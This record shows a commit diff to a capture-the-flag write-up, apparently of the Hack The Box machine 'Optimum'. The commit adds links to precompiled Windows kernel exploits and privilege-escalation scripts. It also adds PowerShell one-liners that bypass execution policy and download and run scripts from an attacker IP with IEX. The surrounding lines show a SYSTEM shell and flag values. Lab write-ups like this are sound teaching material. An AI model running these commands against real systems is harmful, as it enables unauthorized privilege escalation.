

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-23-optimum.md, in a window 1280 px wide and 1400 px high, scrolled down 6252 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-23-optimum.md
+++ b/_posts/2020-07-23-optimum.md
@@ -271,7 +271,7 @@ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-
 
 And now, launch it :
 
-```powershell
+```
 C:\Users\kostas\Desktop>\\10.10.14.10\liodeus\41020.exe
 \\10.10.14.10\liodeus\41020.exe
 Microsoft Windows [Version 6.3.9600]
@@ -288,9 +288,25 @@ Voila ! I'm nt authority\system, I can now read the flags !
 
 ------
 
+Two repository with already compiled Windows exploits :
 
+- [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
+- [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
 
+Two scripts, for Windows privilege escalation check :
 
+- [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)
+- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
+
+Here's different method launch them :
+
+```powershell
+powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
+powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/Sherlock.ps1') ; Find-AllVulns"
+
+powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
+powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/PowerUp.ps1') ;  Invoke-AllChecks"
+```
 
 ## Flags
 
@@ -298,7 +314,7 @@ Voila ! I'm nt authority\system, I can now read the flags !
 
 ### User.txt
 
-```bash
+```
 C:\Users\kostas\Desktop>type user.txt.txt
 type user.txt.txt
 d0c39409d7b994a9a1389ebf38ef5f73
@@ -306,7 +322,7 @@ d0c39409d7b994a9a1389ebf38ef5f73
 
 ### Root.txt
 
-```bash
+```
 C:\Users\Administrator\Desktop>type root.txt
 type root.txt
 51ed1b36553c8461f4552c2e92b3eeed
````
